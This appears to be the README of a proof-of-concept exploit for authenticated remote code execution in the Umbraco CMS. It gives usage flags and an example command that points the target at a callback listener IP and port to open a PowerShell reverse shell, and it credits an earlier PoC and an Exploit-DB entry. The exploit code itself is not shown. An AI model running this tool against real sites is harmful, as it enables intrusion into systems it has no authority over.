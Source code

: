 # Umbraco RCE PowerShell Reverse Shell PoC

## Usage
```
usage: exploit.py [-h] -u USER -p PASS -w URL -i IP [-o PORT]

Umbraco authenticated RCE

optional arguments:
  -h, --help                 show this help message and exit
  -u USER, --user USER       Username / Email
  -p PASS, --password PASS   Login password
  -w URL, --website-url URL  Root URL
  -i IP, --ip IP             IP address of callback listener
  -o PORT, --port PORT       Port of callback listener
```
Examples:
```
python exploit.py -u admin@example.org -p password123 -w 'http://remote.website/' -i 10.10.10.1 -o 1234
```

## Requirements
To install dependencies:
```
pip install -r requirements.txt
```

## Reference
This is a touch-up of [noraj's PoC](https://github.com/noraj/Umbraco-RCE/) which is based off [EDB-ID-46153](https://www.exploit-db.com/exploits/46153).  
This version immediates allows an attacker to gain a PowerShell reverse shell.